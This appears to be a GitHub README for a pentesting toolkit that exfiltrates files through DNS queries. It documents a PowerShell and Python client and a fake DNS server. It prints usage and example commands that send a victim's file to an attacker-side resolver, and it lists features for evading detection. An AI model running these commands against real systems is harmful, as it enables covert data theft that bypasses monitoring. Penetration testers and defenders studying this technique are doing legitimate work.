 # DNS Exfil Tools

Simple penetration testing tools to execute file exfiltration through DNS and avoid common detection methods.

> Modules caption: \
:heavy_check_mark: Available \
:large_blue_circle: Under development \
:white_circle: To be developed

<br>

## Client Exfiltration
Deploy these tools on the target machine to exfiltrate files through DNS requests.
I'm still developing the client side for more than one programming language, to provide more compatibility with the system you are testing.

| Language | Available | Compression | Encryption |
| ------ | ------ | ------ | ------ |
| python3      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:heavy_check_mark:  | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: |
| powershell   | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:heavy_check_mark:  | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: |
| python2      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle:      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: |
| Compiled C++ | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle:      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: |

### Powershell
Use the cmdlet `Get-Help` to get execution informations. You can use `Get-Help -detailed` to print a decent overview.
Here is an instance:
```
NAME
    C:\Users\User\Desktop\dnsexfil.ps1

SYNOPSIS
    Post-exploitation tool to execute DNS exfiltration to your pentesting machine

SYNTAX
    C:\Users\User\Desktop\dnsexfil.ps1 [-Server] <String> [-Domain] <String> [-File] <String> [[-Timeout] <Single>]
    [[-Length] <Int32>] [-Hash] [<CommonParameters>]


DESCRIPTION
    Post-exploitation tool to execute DNS exfiltration to your pentesting machine
    At leats three parameters are needed:
    - Specify DNS resolver as Server parameter
    - Specify filename
    - Specify the fake or legit domain you want to query
    The fakeDNS-server must be listening on your machine

PARAMETERS
    -Server <String>
        (Required) IP address of the listening DNS resolver

    -Domain <String>
        (Required) Fake or legit domain for DNS queries. Your fakeDNS-server will answer to both

    -File <String>
        (Required) Path to the file to exfiltrate through DNS queries

    -Timeout <Single>
        (Optional) Set a timeout between queries to slow down or speed up exfiltration. Default value is 2s

    -Length <Int32>
        (Optional) Set the third domain length. Default value is 16

    -Hash [<SwitchParameter>]
        (Optional) Include hash calculation in exfiltration for integrity purposes

    <CommonParameters>
        This cmdlet supports the common parameters: Verbose, Debug,
        ErrorAction, ErrorVariable, WarningAction, WarningVariable,
        OutBuffer, PipelineVariable, and OutVariable. For more information, see
        about_CommonParameters (https:/go.microsoft.com/fwlink/?LinkID=113216).

    -------------------------- EXAMPLE 1 --------------------------
    PS C:\>.\dnsexfil.ps1 -Server 10.10.80.129 -d fakedomain.com -File C:\Users\Name\file.txt

Use 10.10.80.129 as the fakeDNS-server, and send the file C:\Users\Name\file.txt asking for resolution of
    [***].fakedomain.com:

    -------------------------- EXAMPLE 2 --------------------------
    PS C:\>.\dnsexfil.ps1 -Server 10.10.80.129 -d fakedomain.com -File C:\Users\Name\file.txt -Length 32 -Timeout 10 -Hash

Queries will be like [32-long-chunk].fakedomain.com and going out every 10 seconds:

    




```

### Features
| | |
| ------ | ------ | 
| :heavy_check_mark:  | Set timeout between DNS requests to slow down exfiltration and prevent detection |
| :heavy_check_mark:  | Set random timeout between requests to prevent periodically checks detection |
| :heavy_check_mark:  | Set fake domain or legit domain for DNS queries, the DNS server listening on your machine will respond to both |
| :heavy_check_mark:  | Set custom exfiltration third level domain chunks length |
| :heavy_check_mark:  | Optional: print server's response as record A resolution to verify queries |

### @todo
| | |
| ------ | ------ |
| :large_blue_circle: | Send filename as first action |
| :large_blue_circle: | Compress exfiltrating files to make the transfer faster |
| :large_blue_circle: | Optional: md5 file hash trasmission before file content for integrity checks|
| :white_circle:      | Optional: file encryption to prevent network sniffers to rebuild exfiltrated artifacts |
| :white_circle:      | Optional: Send multiple files at once |
| :white_circle:      | Optional: Send entire directory as compressed file |

<br>
<br>

## Fake DNS Server
Developed with Python3, the server module will provide a simple fake DNS server to get client's queries from your attacking machine, and responde with a spoofed IP of your choice (default is google.com's).

### Features
| | |
| ------ | ------ | 
| :heavy_check_mark:  | Set custom IP to spoof as record A response |
| :heavy_check_mark:  | Set custom domain for further automated file decode |
| :heavy_check_mark:  | Set custom UDP port for DNS service (default is 53) |

### @todo
| | |
| ------ | ------ | 
| :large_blue_circle: | Get filename from exfiltration first chunk |
| :large_blue_circle: | Optional: automated file decode/save |
| :large_blue_circle: | Compression receiving capabilities |
| :white_circle: | Optional: file decryption and save |

<br>
<br>

## Use case
### Attacker side (fake DNS server)
![](https://raw.githubusercontent.com/synth3sis/DNSexfiltools/main/media/fakeDNS-server3.gif)
### Victim side (exfiltration tool)
![](https://raw.githubusercontent.com/synth3sis/DNSexfiltools/main/media/dnsexfil3.gif)
